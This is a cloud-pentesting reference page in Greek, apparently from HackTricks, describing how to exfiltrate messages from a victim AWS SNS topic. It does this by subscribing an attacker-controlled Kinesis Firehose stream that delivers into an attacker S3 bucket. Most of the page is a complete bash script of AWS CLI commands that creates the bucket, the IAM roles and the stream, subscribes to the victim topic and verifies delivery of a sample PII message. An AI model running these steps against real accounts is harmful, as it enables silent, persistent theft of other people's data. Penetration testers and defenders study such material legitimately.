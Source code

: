 # AWS - SNS to Kinesis Firehose Exfiltration (Fanout to S3)

{{#include ../../../../banners/hacktricks-training.md}}

Κατάχρηση του πρωτοκόλλου συνδρομής Firehose για να καταχωρήσετε ένα υπό έλεγχο από επιτιθέμενο Kinesis Data Firehose delivery stream σε ένα θύμα SNS standard topic. Μόλις η συνδρομή είναι εγκατεστημένη και ο απαιτούμενος IAM role εμπιστεύεται `sns.amazonaws.com`, κάθε μελλοντική ειδοποίηση καταχωρείται μόνιμα στο S3 bucket του επιτιθέμενου με ελάχιστο θόρυβο.

## Απαιτήσεις
- Δικαιώματα στον λογαριασμό του επιτιθέμενου για να δημιουργήσει ένα S3 bucket, Firehose delivery stream, και τον IAM role που χρησιμοποιείται από το Firehose (`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy`, κ.λπ.).
- Η δυνατότητα να εκτελέσει `sns:Subscribe` στο topic του θύματος (και προαιρετικά `sns:SetSubscriptionAttributes` αν το subscription role ARN παρέχεται μετά τη δημιουργία).
- Μια topic policy που επιτρέπει στον attacker principal να εγγραφεί (ή ο επιτιθέμενος ήδη δρα μέσα στον ίδιο λογαριασμό).

## Βήματα επίθεσης (παράδειγμα εντός του ίδιου λογαριασμού)
```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
--delivery-stream-name "$STREAM_NAME" \
--delivery-stream-type DirectPut \
--s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
--region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
--topic-arn "$TOPIC_ARN" \
--protocol firehose \
--notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
--attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
--region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```
## Καθαρισμός
- Διαγράψτε τη συνδρομή SNS, το Firehose delivery stream, τους προσωρινούς IAM ρόλους/πολιτικές και το attacker S3 bucket.

## Επιπτώσεις
**Πιθανή Επίπτωση**: Συνεχής, μόνιμη exfiltration κάθε μηνύματος που δημοσιεύεται στο στοχευμένο SNS topic σε attacker-controlled storage με ελάχιστο λειτουργικό αποτύπωμα.

{{#include ../../../../banners/hacktricks-training.md}}
